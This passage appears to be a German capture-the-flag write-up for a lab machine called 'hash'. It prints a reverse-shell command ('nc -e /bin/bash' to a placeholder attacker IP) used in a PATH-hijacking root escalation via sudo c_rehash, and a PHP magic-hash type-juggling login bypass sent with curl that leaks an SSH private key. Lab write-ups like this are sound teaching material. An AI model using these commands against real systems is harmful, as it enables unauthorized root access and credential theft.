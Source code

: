 2.  **Vorbereitung des PATH Hijackings:**
    *   Ein Netcat-Listener wurde auf dem Angreifer-System gestartet:
        ```bash
        nc -lvnp 4444
        ```
    *   Im Home-Verzeichnis von `maria` wurde ein bösartiges Skript namens `openssl` erstellt, das eine Reverse Shell zum Angreifer aufbaut:
        ```bash
        maria@hash:~$ echo "nc -e /bin/bash [Angreifer-IP] 4444" > openssl
        maria@hash:~$ chmod +x openssl
        ```
        *(Hinweis: Ersetzen Sie `[Angreifer-IP]` mit der IP-Adresse des Angreifer-Systems)*

3.  **Ausführung des Exploits:**
    *   Der `c_rehash`-Befehl wurde mit `sudo` ausgeführt, wobei die `PATH`-Umgebungsvariable so manipuliert wurde, dass das aktuelle Verzeichnis (`.`) zuerst durchsucht wird:
        ```bash
        maria@hash:~$ sudo PATH=.:$PATH /usr/bin/c_rehash
        ```
    *   Das `c_rehash`-Skript (ausgeführt als `root`) fand und startete das bösartige `openssl`-Skript im aktuellen Verzeichnis, wodurch die Reverse Shell mit Root-Rechten ausgelöst wurde.

4.  **Root-Zugriff und Root Flag:**
    *   Der Listener empfing die Root-Shell.
    *   ```bash
      # cd /root
      # cat root.txt
      hashhater
      ```

---

## Proof of Concept: PHP Type Juggling

**Kurzbeschreibung:** Das Skript `/check.php` verwendet einen losen Vergleich (`==`) für die Passwortvalidierung. Es vergleicht den SHA256-Hash des Benutzereingabepassworts mit dem String `'0e0001337'`. PHP interpretiert Strings, die mit `0e` beginnen und nur Ziffern enthalten (wie `'0e0001337'`), als wissenschaftliche Notation mit dem numerischen Wert 0. Wenn ein Angreifer ein Passwort bereitstellt, dessen SHA256-Hash ebenfalls mit `0e` beginnt und nur Ziffern enthält (ein "Magic Hash", z.B. `34250003024812`), wird dieser Hash ebenfalls als 0 interpretiert. Der Vergleich wird zu `0 == 0`, was wahr ist und die Authentifizierung umgeht. Im Erfolgsfall gab das Skript den SSH-Privatschlüssel des Benutzers `marco` aus.

**Schritte:**
1.  Identifiziere die Type-Juggling-Bedingung im Quellcode von `check.bak`.
2.  Finde ein Passwort (z.B. `34250003024812`), dessen SHA256-Hash die "Magic Hash"-Bedingung (`0e` + Ziffern) erfüllt.
3.  Sende einen POST-Request an `/check.php` mit dem gefundenen Passwort (z.B. `curl -d "password=34250003024812" http://192.168.2.110/check.php`).
**Ergebnis:** Preisgabe des privaten SSH-Schlüssels von `marco`.

---